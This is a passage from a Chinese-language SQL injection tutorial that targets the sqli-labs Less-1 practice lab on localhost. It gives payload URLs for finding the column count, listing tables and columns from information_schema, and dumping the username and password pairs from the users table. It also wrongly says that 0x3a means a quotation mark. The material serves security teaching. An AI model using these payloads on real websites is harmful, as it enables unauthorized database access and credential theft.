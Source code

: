 ### 构造payload
1. 检测字段数  

   ```http
   http://127.0.0.1/sqli/Less-1/?id=1' order by 3 --+
   ```

   * order by 3 返回正确结果
   * order by 4 返回错误
   * 所以为3个字段  

   ![f5]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f5.png)  

2. 检测当前数据库的表名

   ```http
   http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,2,3 --+
   ```

    * 因为前面检测出了3个字段，所以Union select 1,2,3
    * $\color{red}{返回结果}$  
    ![f6]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f6.png) 
    * 可以看出数字2和3在页面显示出来了，所以选择在2或者3上注入

   ```http
   http://127.0.0.1/sqli/Less-1/?id=-1' UNION SELECT 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
   ```

   * 使用union select语句要注意$\color{red}{前面的条件不能成立，可赋id=-1}$
   * $\color{red}{返回结果}$
   ![f7]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f7.png)

3. 检测某一个表的列名

   ```http
   http://127.0.0.1/sqli/Less-1/?id=-1' UNION SELECT 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
   ```

   * 记得表名要加单引号包裹起来
   * $\color{red}{返回结果}$  
   ![f8]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f8.png)


4. 爆出整个表或某几个想要的列

   ```http
   http://127.0.0.1/sqli/Less-1/?id=-1' UNION ALL SELECT 1,group_concat(username,0x3a,password),3 from users --+
   ```

   * 0x3a表示引号，可以分开用户名和密码
   * $\color{red}{返回结果}$  
   ![f9]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f9.png)

## 关于mysql的注释
### 常见注释符
* #或--+或/**/ 
